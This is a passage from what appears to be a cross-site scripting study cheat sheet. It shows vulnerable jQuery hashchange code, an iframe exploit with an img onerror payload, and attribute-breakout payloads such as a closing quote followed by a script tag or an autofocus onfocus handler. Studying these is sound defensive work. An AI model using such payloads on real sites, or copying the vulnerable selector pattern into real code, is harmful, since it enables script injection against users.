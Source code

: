 <br>

### DOM XSS jQuery selector sink - hashchange event

   * Vulnerable code:

```javascript
<script>
   $(window).on('hashchange', function(){
      var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
         if (post) post.get(0).scrollIntoView();
   });
</script>
```

   * Exploit:  In this example, the src attribute points to the vulnerable page with an empty hash value. When the iframe is loaded, an XSS vector is appended to the hash, causing the hashchange event to fire. 

```html
<iframe src="https://VULNERABLE-APPLICATION/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

<br><br>

## XSS in HTML tag attributes

### Input is within an HTML attribute

* When the injected input is reflected within an HTML attribute, we need to close out the existing attribute/tag and introduce a new tag to execute JavaScript.

    * Example:  \<img src="*user-input*" \>

```html
"><script>alert(1)</script>
```

<br>

### Angle brackets encoded but data is reflected in attribute

* This will break out of the current attribute and introduce a new one that can execute JavaScript.  The last quotation mark is needed to ensure the syntax of the tag is correct.

    * Example:  \<input value=“*user-input*”\>

```html
Test123" autofocus onfocus=alert(1) x=" 
```

<br>

### Input is within an href attribute
